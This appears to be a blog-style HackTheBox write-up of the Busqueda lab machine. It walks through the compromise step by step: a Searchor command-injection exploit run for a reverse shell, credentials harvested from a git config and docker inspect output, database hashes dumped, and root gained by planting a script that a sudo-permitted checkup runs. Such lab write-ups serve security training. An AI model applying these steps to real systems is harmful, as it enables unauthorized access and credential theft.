 ```yaml
---
layout: post
title:  "Writeup of Busqueda (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox busqueda gitea searchor
---
```


# Getting in
There is a website on **:80** with a virtual hostname **searcher.htb**.

It's running **Searchor 2.4.0** with a [known vulnerability](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection).

`bash exploit.sh searcher.htb 10.10.14.144` gives a reverse shell as **svc**.

`user.txt: <redacted>`

# Enumeration

```
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)
```

```
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1647/python3        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:36155         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:222           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
```

```
ServerName gitea.searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:3000/
```

```
ServerName searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:5000/
```

There is another domain: **gitea.searcher.htb**

`var/www/app/.git/config:        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git`

# SSH - svc

`ssh svc@searcher.htb`

**svc:jh1usoih2bkjaspwe92** works for SSH!

`sudo -l`

```
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps`

```
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   5 months ago   Up 46 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   5 months ago   Up 46 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

**Let's extract all the data by running:**

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' '960873171e2e'`

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{join .Args " , "}}' 'f84a6b33fb5a'`

```
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
```

```
"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
"MYSQL_USER=gitea",
"MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
"MYSQL_DATABASE=gitea",
```

The database runs on **172.19.0.3**.

`mysql -h 172.19.0.3 -P 3306 -u root -p`

We get some hashes:

```
name: administrator
passwd: ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2
passwd_hash_algo: pbkdf2
rands: 44748ed806accc9d96bf9f495979b742
salt: a378d3f64143b284f104c926b8b49dfb

name: cody
passwd: b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e
passwd_hash_algo: pbkdf2
rands: 304b5a2ce88b6d989ea5fae74cc6b3f3
salt: d1db0a75a18e50de754be2aafcad5533
```

`administrator's password is the same as mysql -- yuiu1hoiu4i5ho1uh`

`cody's -- jh1usoih2bkjaspwe92`

So there's no point in cracking the hashes - and we got into **gitea** as **administrator**!

# administrator's gitea

There are 4 scripts in a private repo **scripts**:

```
check-ports.py
full-checkup.py
install-flask.sh
system-checkup.py
```

By crafting a file named **full-checkup.sh** in /dev/shm (working dir):

```
#!/bin/bash

id
cat /root/root.txt
```

And executing:

`chmod +x full-checkup.sh`

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

We get **root**!

`root.txt: <redacted>`
